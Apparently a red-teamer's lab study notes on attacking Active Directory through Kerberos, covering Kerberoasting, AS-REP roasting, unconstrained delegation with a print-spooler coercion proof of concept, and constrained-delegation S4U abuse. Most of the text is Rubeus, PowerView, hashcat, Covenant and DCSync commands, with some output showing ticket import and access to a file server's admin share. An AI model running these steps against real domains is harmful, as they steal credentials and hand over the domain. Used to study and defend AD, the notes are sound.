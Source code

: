 ![[Pasted image 20210703183206.png]]

## Kereroasting
Services run on a machine under the context of a user account. These accounts are either local to the machine (LocalSystem, LocalService, NetworkService) or are domain accounts (e.g. DOMAIN\mssql).

A Service Principal Name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos to associate a service instance with a logon account, and are configured on the User Object in AD.

***Kerberoasting is a technique for requesting TGS’s for services run under the context of domain accounts and cracking them offline to reveal their plaintext password.***

Find user accounts with non-null SPNs with PowerView/SharpView:
```
> PowerShell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
```

We can also find users to kerberoast in BloodHound with this Cypher query:
```
MATCH (u:User {hasspn:true}) RETURN u
```

Kerberoast all the users in the domain with **Rubeus kerberoast**.
```
> Rubeus kerberoast
```


Crack with hashcat:
```
hashcat -a 0 -m 13100 kerberoast-hashes /usr/share/wordlists/rockyou.txt
```

## ASREPRoasting
If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user and part of the message can be cracked offline to recover their plaintext password.

Covenant/PowerView command:
```
> PowerShell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
```

ASREPRoast all users in the domain with **Rubeus asreproast**.
```
> Rubeus asreproast /format:hashcat
```

## Unconstrained Delegation
An interesting aspect to Unconstrained Delegation is that it will cache the user’s TGT regardless of which service is being accessed by the user. So, if an admin accesses a file share or any other service on the machine that uses Kerberos, their TGT will be cached.

If we can compromise a machine with Unconstrained Delegation, we can extract any TGTs from its memory and use them to impersonate the users against other services in the domain.

```
#Find unconstrained delegation
> PowerShell Get-DomainComputer -Unconstrained -Properties DnsHostName

#Rubeus dump will extract these tickets from memory and output them as base64 strings. Dump all tickets in a specific LUID: Rubeus dump /luid:0x1fdf42b.

> Rubeus dump /service:krbtgt
> Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
> ImpersonateProcess 2768

> PowerShellRemotingGrunt dc-1 PowerShell
> Connect dc-1 rastasvc
```

#### Exploit PrintSpool
PoC: https://github.com/leechristensen/SpoolSample

```
> shell dir \\dc01\pipe\spoolss ####attempt to access the named pipe
with the dir command

> Shell C:\Temp\SpoolSample.exe dc-1.cyberbotic.io web-1.cyberbotic.io

> Assembly /assemblyname:"Rubeus" /parameters:"dump /service:krbtgt"

> MakeToken Administrator CYBER DoesNotMatter

> DCSync CYBER\krbtgt
```

## Constrained Delegation
Find all computers configured for constrained delegation and what they're allowed to delegate to.
```
> PowerShell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
```

 it’s the computer account trusted for delegation, we need either the NTLM hash for the computer account, or a valid TGT for this abuse to work. As local admin on the machine, we can retrieve the NTLM hash using Mimikatz or extract the TGT with Rubeus.
 
 ```
 > Rubeus dump /service:krbtgt
 
 ```
 
 Now with the TGT, run Rubeus s4u:
 
 ```
 > Rubeus s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:[...snip...]
 ```
 
 This final ticket can be used with Rubeus ptt.

```
> Rubeus createnetonly /program:C:\Windows\System32\cmd.exe

[+] ProcessID : 3420
[+] LUID : 0x239b995

> Rubeus ptt /luid:0x239b995 /ticket:[...snip...]

[*] Action: Import Ticket
[*] Target LUID: 0x239b995
[+] Ticket successfully imported!


> ImpersonateProcess 3420

Successfully impersonated: 3420


> ls \\fs-1.cyberbotic.io\c$

Name                                               Length     CreationTimeUtc      LastAccessTimeUtc    LastWriteTimeUtc
----                                               ------     ---------------      -----------------    ----------------
\\fs-1.cyberbotic.io\c$\$Recycle.Bin               0          16/07/2016 13:23:21  06/03/2020 20:08:47  06/03/2020 20:08:47
\\fs-1.cyberbotic.io\c$\Documents and Settings     0          06/03/2020 20:07:01  06/03/2020 20:07:01  06/03/2020 20:07:01